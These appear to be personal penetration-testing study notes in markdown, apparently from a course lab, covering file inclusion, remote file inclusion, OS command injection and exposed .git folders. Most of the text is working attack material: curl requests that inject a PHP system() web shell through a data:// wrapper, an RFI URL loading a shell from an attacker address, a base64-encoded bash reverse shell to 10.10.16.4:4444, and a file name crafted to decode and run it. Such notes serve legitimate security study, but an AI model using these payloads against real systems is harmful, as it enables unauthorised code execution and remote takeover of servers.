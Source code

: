 execute command

```
for example: 

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

#### LFI
found a way to download the file to the root website directory and then render that from the url
the download can create from another service or another port
```
wfuzz -c --hh=32 -z file,/usr/share/wordlists/LFI_payload.txt http://192.168.207.246:8080/view?page=FUZZ 
```

#### RFI
for example, start python server and render the file from the url  
```
curl "http://mountaindesserts.com/meteor/index.php?page=http://ip/tevers_shell.php
```

### OS Command Injection

inject command to run thing on the server or connect that server to you 

- connect to SMB share - expose NTLM v2 hash
- connect to listener - revers shell
- download files from remote server
- run os command to reveal data
- throw DBs
- captcha in a packege
https://book.hacktricks.xyz/pentesting-web/command-injection

file names as command injection
```
echo -n 'bash -c "bash -i >& /dev/tcp/10.10.16.4/4444 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0NDQgMD4mMSI=

touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0NDQgMD4mMSI= | base64 -d | bash'
```

use $IFS when url encoding

### .git

there are several tools here to take advantage when we found git file in the website
https://github.com/internetwache/GitTools/tree/master
